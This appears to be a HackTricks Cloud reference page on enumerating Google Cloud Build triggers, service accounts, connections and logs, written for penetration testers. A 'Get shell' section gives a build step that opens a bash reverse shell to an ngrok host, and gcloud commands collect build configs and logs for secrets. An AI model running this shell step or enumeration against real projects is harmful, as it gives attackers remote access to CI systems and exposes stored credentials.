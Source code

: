 # GCP - Cloud Build Enum

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

Google Cloud Build is a managed CI/CD platform that **automates software build** and release processes, integrating with **source code repositories** and supporting a wide range of programming languages. It **allows developers to build, test, and deploy code automatically** while providing flexibility to customize build steps and workflows.

Each Cloud Build Trigger is **related to a Cloud Repository or directly connected with an external repository** (Github, Bitbucket and Gitlab).

{% hint style="success" %}
I couldn't see any way to steal the Github/Bitbucket token from here or from Cloud Repositories because when the repo is downloaded it's accessed via a [https://source.cloud.google.com/](https://source.cloud.google.com/) URL and Github is not accessed by the client.
{% endhint %}

### Events

The Cloud Build can be triggered if:

* **Push to a branch**: Specify the branch
* **Push a new tag**: Specify the tag
* P**ull request**: Specify the branch that receives the PR
* **Manual Invocation**
* **Pub/Sub message:** Specify the topic
* **Webhook event**: Will expose a HTTPS URL and the request must be authenticated with a secret

### Execution

There are 3 options:

* A yaml/json **specifying the commands** to execute. Usually: `/cloudbuild.yaml`
  * Only one that can be specified “inline” in the web console and in the cli
  * Most common option
  * Relevant for unauthenticated access
* A **Dockerfile** to build
* A **Buildpack** to build

### SA Permissions

The **Service Account has the `cloud-platform` scope**, so it can **use all the privileges.** If **no SA is specified** (like when doing submit) the **default SA** `<proj-number>@cloudbuild.gserviceaccount.com` will be **used.**

By default no permissions are given but it's fairly easy to give it some:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Approvals

It's possible to config a Cloud Build to **require approvals for build executions** (disabled by default).

### Connections & Repositories

Connections can be created over:

* **GitHub:** It will show an OAuth prompt asking for permissions to **get a Github token** that will be stored inside the **Secret Manager.**
* **GitHub Enterprise:** It will ask to install a **GithubApp**. An **authentication token** from your GitHub Enterprise host will be created and stored in this project as a S**ecret Manager** secret.
* **GitLab / Enterprise:** You need to **provide the API access token and the Read API access toke**n which will stored in the **Secret Manager.**

Once a connection is generated, you can use it to **link repositories that the Github account has access** to.

This option is available through the button:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Note that repositories connected with this method are **only available in Triggers using 2nd generation.**
{% endhint %}

### Connect a Repository

This is not the same as a **`connection`**. This allows **different** ways to get **access to a Github or Bitbucket** repository but **doesn't generate a connection object, but it does generate a repository object (of 1st generation).**

This option is available through the button:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Storage

Sometimes Cloud Build will **generate a new storage to store the files for the trigger**. This happens for example in the example that GCP offers with:

```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
  cd cloud-console-sample-build && \
  gcloud builds submit --config cloudbuild.yaml --region=global
```

A Storage bucket called [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) is created to store a `.tgz` with the files to be used.

### Get shell

```yaml
steps:
  - name: bash
    script: |
      #!/usr/bin/env bash
      bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
  logging: CLOUD_LOGGING_ONLY
```

### Enumeration

You could find **sensitive info in build configs and logs**.

```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
    echo "Listing build connections in region: $region"
    connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
    if [[ ${#connections[@]} -eq 0 ]]; then
        echo "No connections found in region $region."
    else
        for connection in $connections; do
            echo "Describing connection $connection in region $region"
            gcloud builds connections describe "$connection" --region="$region"
            echo "-----------------------------------------"
        done
    fi
    echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
    echo "Listing build worker-pools in region: $region"
    gcloud builds worker-pools list --region="$region"
    echo "-----------------------------------------"
done
```

### Privilege Escalation

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Unauthenticated Access

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post Exploitation

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
